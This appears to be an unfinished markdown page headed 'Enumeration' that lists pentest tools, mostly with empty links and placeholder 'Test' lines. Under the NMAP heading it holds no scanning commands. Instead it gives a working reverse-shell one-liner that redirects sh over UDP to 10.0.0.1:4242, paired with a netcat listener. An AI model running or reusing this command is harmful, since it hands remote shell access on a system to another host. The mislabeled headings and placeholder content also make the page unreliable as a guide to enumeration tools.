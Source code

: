 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [DB](#DIRB)
* [DIRBUSTER](#DIRBUSTER)
* [Credentials](#)
   * [](#)
* [](#)
* [](#)
* [](#)
* [](#)
* [](#)
 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
Test
Test
Test
Test
Test
Test
Test
Test
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
